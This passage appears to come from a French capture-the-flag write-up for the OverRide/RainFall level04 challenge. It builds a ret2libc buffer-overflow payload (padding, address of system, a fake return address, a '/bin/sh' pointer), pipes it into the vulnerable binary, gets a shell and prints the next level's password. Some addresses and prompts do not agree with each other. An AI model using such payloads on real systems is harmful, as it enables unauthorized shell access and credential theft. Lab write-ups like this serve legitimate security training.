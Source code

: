 * On a donc tous les prérequis. En transformant en little indian l'addresse de SHELL_STRING et de system, on va pouvoir construire la string suivante:
* \[A * 156][&system][OSEF][&"bin/sh"]0xf7e6aed0
* "A" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\x72\xdf\xff\xff"

```shell
  level04@RainFall:/tmp$
  (python -c 'print "A" * 156 + "\xd0\xae\xe6\xf7" + "OSEF" + "\xec\x97\xf8\xf7"'; cat - ) | ~/level04
    Give me some shellcode, k
  whoami
    level05
  cat /home/users/level05/.pass
    3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
    ^C
  level04@OverRide:/tmp$ su level05
    Password:
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level05/level05
  level05@OverRide:~$
```